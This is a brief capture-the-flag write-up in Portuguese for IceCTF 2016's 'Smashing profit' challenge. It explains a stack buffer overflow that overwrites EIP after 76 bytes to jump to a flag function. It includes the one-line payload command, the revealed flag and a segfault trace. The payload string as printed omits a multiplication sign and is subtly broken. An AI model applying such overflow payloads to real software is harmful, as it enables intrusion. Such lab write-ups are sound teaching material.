 # Smashing profit

Buffer overflow simples,conseguimos reescrever o EIP após 76 bytes e então apontamos para o endereço da função flag:

```
[ctf-99689@icectf-shell-2016 /home/profit]$ ./profit <<< $(python -c 'print "A"76+"\x0b\x85\x04\x08"')
Smashing the stack for fun and...?
IceCTF{who_would_have_thunk?}
[1] 13172 segmentation fault ./profit <<< $(python -c 'print "A"76+"\x0b\x85\x04\x08"')
[ctf-99689@icectf-shell-2016 /home/profit]$
```
